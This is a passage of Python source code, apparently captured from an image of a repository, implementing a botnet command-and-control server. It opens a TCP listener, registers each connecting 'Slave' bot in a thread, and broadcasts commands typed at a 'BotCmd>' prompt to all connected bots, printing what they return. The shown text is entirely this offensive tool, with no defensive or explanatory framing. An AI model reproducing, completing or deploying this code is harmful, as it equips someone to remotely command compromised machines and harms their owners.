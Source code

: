 ```python
		self.client_address = client_address
		self.ip = client_address[0]
		self.port = client_address[1]
		self.q = qv

	def run(self):
		BotName = threading.current_thread().name
		print(f"\n[*] Slave {self.ip}:{self.port} connected with Thread-ID: {BotName}")
		ClientList[BotName] = self.client_address
		while True:
			RecvBotCmd = self.q.get()
			try:
				self.client.send(RecvBotCmd.encode('latin-1'))
				recvVal = (self.client.recv(1024)).decode('latin-1')
				print(recvVal)
			except Exception as e:
				print(e)
				break

class BotCmd(threading.Thread):
	def __init__(self, qv2):
		threading.Thread.__init__(self)
		self.q = qv2

	def run(self):
		while True:
			SendCmd = str(input("BotCmd> "))
			if SendCmd == "":
				pass
			elif SendCmd == "exit":
				for i in range(len(Socketthread)):
					time.sleep(0.1)
					self.q.put(SendCmd)
				time.sleep(5)
				os._exit(0)
			else:
				print(f"[+] Sending command: {SendCmd} to {str(len(Socketthread))} bots")
				for i in range(len(Socketthread)):
					time.sleep(0.1)
					self.q.put(SendCmd)

def listener(lhost, lport, q):
	server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
	server_address = (lhost, lport)
	server.bind(server_address)
	server.listen(100)

	print(f"[+] Startring Botnet listener on tcp: {lhost}:{lport}\n")
	BotCmdThread = BotCmd(q)
	BotCmdThread.start()
	while True:
		(client, client_address) = server.accept()
		newthread = BotHandler(client, client_address, q)
		Socketthread.append(newthread)
		newthread.start()

def main():

	if (len(sys.argv) < 3):
		print(f"""
[!] Usage:
[+] python3 {sys.argv[0]} <LHOST> <LPORT>
```